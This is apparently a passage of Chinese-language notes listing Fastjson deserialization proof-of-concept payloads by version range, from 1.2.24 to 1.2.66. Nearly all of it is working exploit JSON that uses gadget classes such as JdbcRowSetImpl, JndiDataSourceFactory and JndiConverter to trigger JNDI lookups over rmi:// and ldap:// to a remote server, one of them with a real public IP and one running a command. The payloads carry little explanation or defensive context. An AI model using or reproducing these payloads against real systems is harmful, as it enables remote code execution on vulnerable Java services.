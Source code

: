 此poc  
通杀，1.2.24-1.2.43  
，1.2.25  
以上需开启autoType  
### Fastjson1.2.44-1.2.45  
```
{
    "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties":{
        "data_source":"rmi://127.0.0.1/"
    }
}
```  
```
        <dependency>
            <groupId>org.mybatis</groupId>
            <artifactId>mybatis</artifactId>
            <version>3.4.6</version>
        </dependency>
```  
### Fastjson1.2.46  
```
{
"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties":{
        "data_source":"ldap://127.0.0.1:1389/Basic/Command/calc"
    }
}
```  
### FastJson <= 1.2.47  
```
JSONObject jsonToObject = JSON.parseObject("{\n" +
" \"a\":{\n" +
" \"@type\":\"java.lang.Class\",\n" +
" \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
" },\n" +
" \"b\":{\n" +
" \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
" \"dataSourceName\":\"rmi://47.94.236.117:1099/j2azgf\",\n" +
" \"autoCommit\":true\n" +
" }\n" +
"}");
```  
  
参考链接  
https://blog.csdn.net/LTianHang/article/details/130912591  
### Fastjson <=1.2.62 和 <=1.2.66版本  
```
{  
"@type":"org.apache.xbean.propertyeditor.JndiConverter",  
"AsText":"rmi://127.0.0.1:1099/exploit"
}";
```  
```
{  
"@type":"org.apache.xbean.propertyeditor.JndiConverter",  
"AsText":"rmi://127.0.0.1:1099/exploit"
}";
```  
  